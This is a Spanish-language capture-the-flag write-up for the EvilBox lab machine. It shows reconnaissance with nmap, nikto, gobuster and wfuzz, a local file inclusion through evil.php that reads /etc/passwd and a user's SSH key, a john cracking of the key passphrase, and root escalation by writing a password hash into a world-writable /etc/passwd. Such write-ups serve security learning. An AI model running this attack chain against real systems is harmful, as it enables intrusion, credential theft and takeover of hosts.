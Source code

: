 ```yaml
---
title: EvilBox
published: true
---
```


---
## Intrusion
Empiezo haciendo un escaneo con nmap para ver puertos abiertos

```bash
❯ nmap 192.168.1.19
Nmap scan report for 192.168.1.19
Host is up (0.0024s latency).
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

![](https://eidd3.github.io/assets/img/img1.png)

Uso nikto para ver posibles vulnerabilidades o recursos en la página

```bash
❯ nikto -h http://192.168.1.19/
---------------------------------------------------------------------------
+ Target IP:          192.168.1.19
+ Target Hostname:    192.168.1.19
+ Target Port:        80
+ Start Time:         2023-01-17 18:11:38 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ End Time:           2023-01-17 18:12:00 (GMT-3) (22 seconds)
---------------------------------------------------------------------------
```

Me muestra un "_robots.txt_" un directorio **"/secret/"** y un **"/icons/README".**

Nada interesante en _robots.txt_ y **/secret** por ahora


![](https://eidd3.github.io/assets/img/img2.png)

![](https://eidd3.github.io/assets/img/img3.png)

Después de hacer fuzzing de subdominios u otras rutas y no encontrar nada, busque por archivos php o txt en el directorio **/secret/**

```bash
 gobuster dir -u http://192.168.1.19/secret/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40 -x php,txt
===============================================================
Gobuster v3.1.0
===============================================================
[+] Url:                     http://192.168.1.19/secret/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
/evil.php             (Status: 200) [Size: 0]

===============================================================
2023/01/17 19:05:06 Finished
===============================================================
```

El recurso evil.php existe pero en la web todavía no muestra nada

![](https://eidd3.github.io/assets/img/img4.png)

Tiene pinta de ser un Local File Inclusion (LFI), por lo que lanzo otro escaneo para detectar algún parámetro web con el que pueda listar archivos locales de la maquina

```bash
❯ wfuzz -c --hc=404 --hw=0 -w /opt/SecLists/Miscellaneous/web/html-tags.txt 'http://192.168.1.19/secret/evil.php?FUZZ=/etc/passwd' 2>/dev/null
********************************************************

Target: http://192.168.1.19/secret/evil.php?FUZZ=/etc/passwd
Total requests: 153

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                         
=====================================================================

000000032:   200        27 L     39 W       1458 Ch     "command"                                                                                       

Total time: 0
Processed Requests: 153
Filtered Requests: 152
Requests/sec.: 0
```

command parece ser el parámetro para intentar un LFI

![](https://eidd3.github.io/assets/img/img5.png)

Funciona, por lo que ahora podemos probar ver la id_rsa de algún usuario del sistema

![](https://eidd3.github.io/assets/img/img6.png)

Vemos la del usuario mowree pero está encriptada.

Con ssh2john podemos tratar de sacar la contraseña.

```bash
❯ /usr/share/john/ssh2john.py id_rsa > hash
```

```bash
❯ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorn          (id_rsa)

Session completed
```


Tengo la contraseña de la id_rsa por lo que ahora puedo intentar conectarme por ssh ingresando la clave de la is_rsa pero sin poner la contraseña del usuario mowree


```bash
❯ ssh mowree@192.168.1.19 -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
mowree@EvilBoxOne:~$ whoami
mowree
mowree@EvilBoxOne:~$
```

## Elevando Privilegios

Si listamos los permisos del archivo /etc/passwd vemos que otros pueden escribir

```bash
mowree@EvilBoxOne:~$ ls -la /etc/passwd
-rw-rw-rw- 1 root root 1398 Aug 16  2021 /etc/passwd
```

Por lo que ahora podemos crear una contraseña para el usuario root y poner el hash en el /etc/passwd

```bash
❯ openssl passwd -1
Password: 
Verifying - Password: 
$1$eKwzP0P1$W4PsKYip9JqhXY2BAKMBe0
```

Con openssl generamos el hash de la contraseña "password123” y lo cambiamos por la x en /etc/passwd


![](https://eidd3.github.io/assets/img/img7.png)

![](https://eidd3.github.io/assets/img/img8.png)
